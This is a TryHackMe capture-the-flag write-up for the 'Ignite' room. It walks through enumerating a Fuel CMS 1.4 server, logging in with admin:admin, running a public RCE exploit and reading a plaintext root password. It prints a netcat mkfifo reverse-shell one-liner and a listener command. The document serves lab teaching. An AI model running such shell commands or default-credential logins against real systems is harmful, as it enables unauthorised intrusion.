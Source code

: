 ```yaml
---
title: "TryHackMe - Ignite"
author: Nasrallah
description: ""
date: 2022-03-21 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, rce]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Ignite](https://tryhackme.com/room/ignite) from [TryHackMe](https://tryhackme.com), and easy machine where we find a CMS vulnerable to RCE, we use an exploit to help us get a reverse shell on the machine, then we look through the CMS files to find a plain text password of root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Nmap scan report for 10.10.89.94
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

We only have port 80 open, and there is a robots.txt file, let's run a directory scan while we go check the webpage.

### WebPage

Let's navigate to the webpage.

![webpage](/assets/img/tryhackme/ignite/igniteweb.png)

We have Fuel CMS with version 1.4 running on the webserver. There is nothing else, let's check what we got from the directory scan.

#### Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/0                    (Status: 200) [Size: 16597]
/assets               (Status: 301) [Size: 315] [--> http://10.10.239.131/assets/]
/home                 (Status: 200) [Size: 16597]                                 
/index                (Status: 200) [Size: 16597]                                 
/index.php            (Status: 200) [Size: 16597]                                 
/lost+found           (Status: 400) [Size: 1134]                                  
/offline              (Status: 200) [Size: 70]                                    
/robots.txt           (Status: 200) [Size: 30]                                    
/server-status        (Status: 403) [Size: 301]                                   
===============================================================
```

Let's navigate to **/robots.txt**.

![robts](/assets/img/tryhackme/ignite/robots.png)

There is 1 disallowed entry, **/fuel**, let's see what there.

![login](/assets/img/tryhackme/ignite/loginpage.png)

We found a login page for **fuelcms**, let's see if we can get in by submitting some knows credentials.

![panle](/assets/img/tryhackme/ignite/panel.png)

I managed to login using **admin:admin**

Let's check if there is any exploit for this version of fuel cms.

![exploit](/assets/img/tryhackme/ignite/ignitexploitdb.png)

We found 3 RCE exploit, let's download one of the exploit and try run some commands. I will be using this [exploit](https://www.exploit-db.com/exploits/50477).

## **Foothold**

Let's run the exploit now.

![rce](/assets/img/tryhackme/ignite/rce.png)

We are able now to execute code on the machine, let's get a proper shell.

First, setup a listener on your attacking machine(`nc -lnvp 9001`) and execute the following command on the RCE prompt `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f`

>NOTE: Change the ip address on the command

![rce](/assets/img/tryhackme/ignite/mkfifo.png)

![rce](/assets/img/tryhackme/ignite/shell.png)

I used the python import pty trick to stabilize my shell.

## **Privilege Escalation**

For Privilege Escalation, i uploaded linpeas to the machine to do the scan for me.

![wget](/assets/img/tryhackme/ignite/wget.png)

Let's run the script and see what it will find.

![rootpass](/assets/img/tryhackme/ignite/rootpass.png)

There is a root password in plain text in one of the file of the application. Let's see if it works.

![root](/assets/img/tryhackme/ignite/root.png)

Great! The password worked and we got root access.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
